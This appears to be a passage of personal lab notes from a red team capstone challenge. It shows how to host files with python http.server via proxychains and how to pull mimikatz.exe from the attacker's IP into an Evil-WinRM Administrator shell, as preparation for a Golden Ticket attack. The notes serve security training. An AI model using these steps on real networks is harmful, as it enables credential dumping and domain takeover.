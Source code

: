 
[[Dumping secrets from CORPDC#Connect to RDP with the Administrator's credentials|Connect to CORP.DC with Administration credentials]]

NOTE: If you can't connect , go to [[Dumping secrets from CORPDC]]

### Enable http.server using python and proxychains on the Attacking machine


~/…/red_team_recon/Capstone_Challenge/Capstone_Challenge_Resources/Tools/mimikatz_trunk/x64$  `proxychains4 -q python3 -m http.server`

### Get mimikatz
On the tools provided on Capstone challenge folder you can find mimikatz.
Run on the Evil-WinRM shell the following command.

Evil-WinRM* PS C:\Users\Administrator> `wget http://10.50.110.16:8000/mimikatz.exe -o mimikatz.exe`

**Next step:** [[Golden Ticket Attack with mimikatz]]
